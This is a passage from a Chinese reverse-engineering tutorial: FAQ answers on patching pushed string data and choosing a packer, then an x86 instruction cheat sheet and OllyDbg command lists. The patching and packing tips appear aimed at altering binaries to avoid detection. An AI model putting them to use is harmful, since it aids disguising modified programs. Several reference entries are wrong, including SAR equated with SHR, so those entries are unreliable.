答：因为你修改了需要进行压栈处理的字符数据区域，对于这部分区域程序是不执行具体指令的，这段区域的所有指令所表示的仅仅是一个字符。如果你将原有的指令 jmp 到其他位置的话，那么留在这里 jmp 指令并不会被执行，而由于你将原有数据替换成了 jmp 指令，所以破坏了原有的数据，导致程序执行错误。目前针对这种情况只能换用大小写替换法或“00”填充法，当然如果你熟悉汇编语言的话，可以根据经验从压栈指令上动手脚。

8、为什么我无法使用加壳软件给一个程序加壳？
答：壳软件本身对程序资源也是有一定的要求的，并不是所有的壳都可以使用的。建议使用一些对程序资源不敏感的壳，例如北斗的壳。

9、你是怎么学会这些技术的？
答：70%的努力 + 30%的兴趣 + 0%天赋，努力是由兴趣引导的，兴趣是靠自己培养的，怎样培养兴趣？还是靠努力。

## 附录

## 8088汇编速查手册

#### 一、数据传输指令

它们在存贮器和寄存器、寄存器和输入输出端口之间传送数据。

#### 1．通用数据传送指令
- `MOV`：传送字或字节
- `MOVSX`：先符号扩展，再传送
- `MOVZX`：先零扩展，再传送
- `PUSH`：把字压入堆栈
- `POP`：把字弹出堆栈
- `PUSHA`：把 AX、CX、DX、BX、SP、BP、SI、DI 依次压入堆栈
- `POPA`：把 DI、SI、BP、SP、BX、DX、CX、AX 依次弹出堆栈
- `PUSHAD`：把 EAX、ECX、EDX、EBX、ESP、EBP、ESI、EDI 依次压入堆栈
- `POPAD`：把 EDI、ESI、EBP、ESP、EBX、EDX、ECX、EAX 依次弹出堆栈
- `BSWAP`：交换 32 位寄存器里字节的顺序
- `XCHG`：交换字或字节（至少有一个操作数为寄存器，段寄存器不可作为操作数）
- `CMPXCHG`：比较并交换操作数（第二个操作数必须为累加器 AL/AX/EAX）
- `XADD`：先交换再累加（结果在第一个操作数里）
- `XLAT`：字节查表转换；BX 指向 256 字节表起点，AL 为索引值（0-255，即 0-FFH），返回 AL 为查表结果（[BX+AL]→AL）

#### 2．输入输出端口传送指令
- `IN`：I/O 端口输入（语法：IN 累加器）
- `OUT`：I/O 端口输出（语法：OUT 累加器）

输入输出端口由立即方式指定时，其范围是 0-255；由寄存器 DX 指定时，其范围是 0-65535。

#### 3．目的地址传送指令
- `LEA`：装入有效地址
  - 例：`LEA DX,string`；把偏移地址存到 DX。
- `LDS`：传送目标指针，把指针内容装入 DS
  - 例：`LDS SI,string`；把段地址:偏移地址存到 DS:SI。
- `LES`：传送目标指针，把指针内容装入 ES
  - 例：`LES DI,string`；把段地址:偏移地址存到 ES:DI。
- `LFS`：传送目标指针，把指针内容装入 FS
  - 例：`LFS DI,string`；把段地址:偏移地址存到 FS:DI。
- `LGS`：传送目标指针，把指针内容装入 GS
  - 例：`LGS DI,string`；把段地址:偏移地址存到 GS:DI。
- `LSS`：传送目标指针，把指针内容装入 SS
  - 例：`LSS DI,string`；把段地址:偏移地址存到 SS:DI。

#### 4．标志传送指令
- `LAHF`：标志寄存器传送，把标志装入 AH
- `SAHF`：标志寄存器传送，把 AH 内容装入标志寄存器
- `PUSHF`：标志入栈
- `POPF`：标志出栈
- `PUSHD`：32位标志入栈
- `POPD`：32位标志出栈

#### 二、算术运算指令

- `ADD`：加法
- `ADC`：带进位加法
- `INC`：加1
- `AAA`：加法的ASCII码调整
- `DAA`：加法的十进制调整
- `SUB`：减法
- `SBB`：带借位减法
- `DEC`：减1
- `NEG`：求反（以0减之）
- `CMP`：比较（两操作数作减法，仅修改标志位，不回送结果）
- `AAS`：减法的ASCII码调整
- `DAS`：减法的十进制调整
- `MUL`：无符号乘法
- `IMUL`：整数乘法

以上两条指令（MUL/IMUL），结果回送 AH 和 AL（字节运算）或 DX 和 AX（字运算）。

- `AAM`：乘法的ASCII码调整
- `DIV`：无符号除法
- `IDIV`：整数除法

以上两条指令（DIV/IDIV），结果回送：商回送 AL，余数回送 AH（字节运算），或商回送 AX，余数回送 DX（字运算）。

- `AAD`：除法的ASCII码调整
- `CBW`：字节转换为字（把 AL 中字节的符号扩展到 AH 中去）
- `CWD`：字转换为双字（把 AX 中的字符号扩展到 DX 中去）
- `CWDE`：字转换为双字（把 AX 中的字符号扩展到 EAX 中去）
- `CDQ`：双字扩展（把 EAX 中的字符号扩展到 EDX 中去）

#### 三、逻辑运算指令

- `AND`：与运算
- `OR`：或运算
- `XOR`：异或运算
- `NOT`：取反
- `TEST`：测试（两操作数作与运算，仅修改标志位，不回送结果）
- `SHL`：逻辑左移
- `SAL`：算术左移（=SHL）
- `SHR`：逻辑右移
- `SAR`：算术右移（=SHR）
- `ROL`：循环左移
- `ROR`：循环右移
- `RCL`：通过进位的循环左移
- `RCR`：通过进位的循环右移

以上八种移位指令，其移位次数可达 255 次。当移位一次时，可直接使用操作码，比如 `SHL AX,1`。当移位大于 1 次时，则由寄存器 CL 给出移位次数，比如：

```asm
MOV CL,04
SHL AX,CL
```

#### 四、串指令

- DS:SI：源串段寄存器；源串变址
- ES:DI：目标串段寄存器；目标串变址
- CX：重复次数计数器
- AL/AX：扫描值
- D标志：0 表示重复操作中，SI 和 DI 应自动增量，1 表示应自动减量
- Z标志：用来控制扫描或比较操作的结束
- `MOVS`：串传送（MOVSB 传送字符，MOVSW 传送字，MOVSD 传送双字）
- `CMPS`：串比较（CMPSB 比较字符，CMPSW 比较字）
- `SCAS`：串扫描，把 AL 或 AX 的内容与目标串作比较，比较结果反映在标志位
- `LODS`：装入串，把源串中的元素（字或字节）逐一装入 AL 或 AX 中（LODSB 传送字符，LODSW 传送字，LODSD 传送双字）
- `STOS`：保存串，是 LODS 的逆过程
- `REP`：当 CX/ECX<>0 时重复
- `REPE/REPZ`：当 ZF=1 或比较结果相等，且 CX/ECX<>0 时重复
- `REPNE/REPNZ`：当 ZF=0 或比较结果不相等，且 CX/ECX<>0 时重复
- `REPC`：当 CF=1 且 CX/ECX<>0 时重复
- `REPNC`：当 CF=0 且 CX/ECX<>0 时重复

#### 五、程序转移指令

#### 1、无条件转移指令（长转移）
- `JMP`：无条件转移指令
- `CALL`：过程调用
- `RET/RETF`：过程返回

#### 2、条件转移指令（短转移，-128 到 +127 的距离内）
当且仅当 (SF XOR OF)=1 时，某些指令发生转移。

- `JA/JNBE`：不小于或不等于时转移

| 指令 | 功能 |
|---|---|
| JAE/JNB | 大于或等于转移 |
| JB/JNAE | 小于转移 |
| JBE/JNA | 小于或等于转移 |

以上四条指令，测试无符号整数运算的结果（标志 C 和 Z）。

| 指令 | 功能 |
|---|---|
| JG/JNLE | 大于转移 |
| JGE/JNL | 大于或等于转移 |
| JL/JNGE | 小于转移 |
| JLE/JNG | 小于或等于转移 |

以上四条指令，测试带符号整数运算的结果（标志 S，O 和 Z）。

| 指令 | 功能 |
|---|---|
| JE/JZ | 等于转移 |
| JNE/JNZ | 不等于时转移 |
| JC | 有进位时转移 |
| JNC | 无进位时转移 |
| JNO | 不溢出时转移 |
| JNP/JPO | 奇偶性为奇数时转移 |
| JNS | 符号位为“0”时转移 |
| JO | 溢出转移 |
| JP/JPE | 奇偶性为偶数时转移 |
| JS | 符号位为“1”时转移 |

#### 3、循环控制指令（短转移）

| 指令 | 功能 |
|---|---|
| LOOP | CX 不为零时循环 |
| LOOPE/LOOPZ | CX 不为零且标志 Z=1 时循环 |
| LOOPNE/LOOPNZ | CX 不为零且标志 Z=0 时循环 |
| JCXZ | CX 为零时转移 |
| JECXZ | ECX 为零时转移 |

#### 4、中断指令

| 指令 | 功能 |
|---|---|
| INT | 中断指令 |
| INTO | 溢出中断 |
| IRET | 中断返回 |

#### 5、处理器控制指令

| 指令 | 功能 |
|---|---|
| HLT | 处理器暂停，直到出现中断或复位信号才继续 |
| WAIT | 当芯片引线 TEST 为高电平时使 CPU 进入等待状态 |
| ESC | 转换到外处理器 |
| LOCK | 封锁总线 |
| NOP | 空操作 |
| STC | 置进位标志位 |
| CLC | 清进位标志位 |
| CMC | 进位标志取反 |
| STD | 置方向标志位 |
| CLD | 清方向标志位 |
| STI | 置中断允许位 |
| CLI | 清中断允许位 |

#### 六、伪指令

| 伪指令 | 说明 |
|---|---|
| DW | 定义字（2 字节） |
| PROC | 定义过程 |
| ENDP | 过程结束 |
| SEGMENT | 定义段 |
| ASSUME | 建立段寄存器寻址 |
| ENDS | 段结束 |
| END | 程序结束 |

### OllyDbg 常用快捷键

- 打开一个新的可执行程序（F3）
- 重新运行当前调试的程序（Ctrl+F2）
- 关闭当前调试的程序（Alt+F2）
- 运行选定的程序进行调试（F9）
- 暂时停止被调试程序的执行（F12）
- 单步进入被调试程序的 Call 中（F7）
- 步过被调试程序的 Call（F8）
- 跟入被调试程序的 Call 中（Ctrl+F11）
- 跟踪时跳过被调试程序的 Call（Ctrl+F12）
- 执行直到返回（Ctrl+F9）
- 显示记录窗口（Alt+L）
- 显示模块窗口（Alt+E）
- 显示内存窗口（Alt+M）
- 显示 CPU 窗口（Alt+C）
- 显示补丁窗口（Ctrl+P）
- 显示呼叫堆栈（Alt+K）
- 显示断点窗口（Alt+B）
- 打开调试选项窗口（Alt+O）

### OllyDbg 命令栏命令列表

以下命令适用于 OllyDbg 的快捷命令栏插件（显示于程序的状态栏上方）：

| 命令 | English | 中文 |
|---|---|---|
| CALC |  | 判断表达式 |
| WATCH |  | 添加监视表达式 |
| AT / FOLLOW | Disassemble at address | 在地址进行反汇编 |
| ORIG | Disassemble at EIP | 反汇编于 EIP |
| DUMP | Dump at address | 在地址转存 |
| DA | Dump as disassembly | 转存为反汇编代码 |
| DB | Dump in hex byte format | 转存在十六进制字节格式 |
| DC | Dump in ASCII format | 转存在 ASCII 格式 |
| DD | Dump in stack format | 转存在堆栈格式 |
| DU | Dump in UNICODE format | 转存在 UNICODE 格式 |
| DW | Dump in hex word format | 转存在十六进制字词格式 |
| STK | Go to address in stack | 前往堆栈中的地址 |
| AS + 地址 + 字符串 | Assemble at address | 在地址进行汇编 |
| L + 地址 + 字符串 | Label at address | 在地址进行标号 |
| C + 地址 + 字符串 | Comment at address | 在地址进行注释 |
| BP | Break with condition | 使用条件中断 |
| BPX | Break on all calls | 中断在全部调用 |
| BPD | Delete break on all calls | 清除位于全部调用的断点 |
| BC | Delete breakpoint | 清除断点 |
| MR | Memory breakpt on access | 内存断点于访问时 |
| MW | Memory breakpt on write | 内存断点于写入时 |
| MD | Remove memory breakpoint | 清除内存断点 |
| HR | HW break on access | 硬件中断在访问 |
| HW | HW break on write | 硬件中断在写入 |
| HE | HW break on execution | 硬件中断在执行 |
| HD | Remove HW breakpoint | 清除硬件断点 |
| STOP |  | 停止运行程序调试 |
| PAUSE |  | 暂停程序调试 |
| RUN | Run program | 运行程序进行调试 |
|  | Run till address | 运行到地址 |
| GE | Run and pass exception | 运行和通过例外 |
| SI | Step into | 步入 |
| SO | Step over | 步过 |
| TI | Trace in till address | 跟踪进入直到地址 |
| TO | Trace over till address | 跟踪步过直到地址 |
| TC | Trace in till condition | 跟踪进入直到条件 |
| TOC | Trace over till condition | 跟踪步过直到条件 |
| TR | Till return | 直到返回 |
| TU | Till user code | 直到用户代码 |
| LOG | View Log window | 查看记录窗口 |
| MOD | View Modules window | 查看模块窗口 |
| MEM | View Memory window | 查看内存窗口 |
| CPU | View CPU window | 查看 CPU 窗口 |
| CS | View Call Stack | 查看 Call 堆栈 |
| BRK | View Breakpoints window | 查看断点窗口 |
| OPT | Open Options | 打开选项 |
| EXIT / QUIT | Quit OllyDbg | 退出 OllyDbg |
| OPEN | Open executable file | 打开可执行文件 |
| CLOSE | Close executable | 关闭程序 |
| RST | Restart current program | 恢复当前程序 |
| HELP | Help on API function | API 函数的帮助 |
| ASM ADDRESS | Assemble | 汇编（如果命令需要自身的地址 "ASM COMMAND; ADDRESS"） |
| DASM | Disassemble immediate opcode | 反汇编直接的机器码 |
| FR | Find reference to selected command/address | 查找参考到选定的命令/地址 |
| AC | Analyse code | 分析代码 |
| SN | Search for Name(label) in current module | 在当前模块中搜索名称（标号） |
| SOB | Scan object files | 扫描项目文件 |